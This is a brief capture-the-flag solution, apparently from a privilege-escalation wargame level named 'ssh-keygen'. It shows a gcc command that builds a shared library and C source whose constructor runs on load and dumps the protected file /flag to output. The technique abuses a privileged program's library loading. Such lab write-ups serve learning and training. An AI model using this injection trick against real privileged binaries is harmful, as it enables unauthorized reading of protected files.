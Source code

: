 ### Level 51 - ssh-keygen

```bash
gcc -shared -o w3t.so -fPIC w3t.c
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void w3t() { sendfile(1,open("/flag",0),0,4096); } 
```



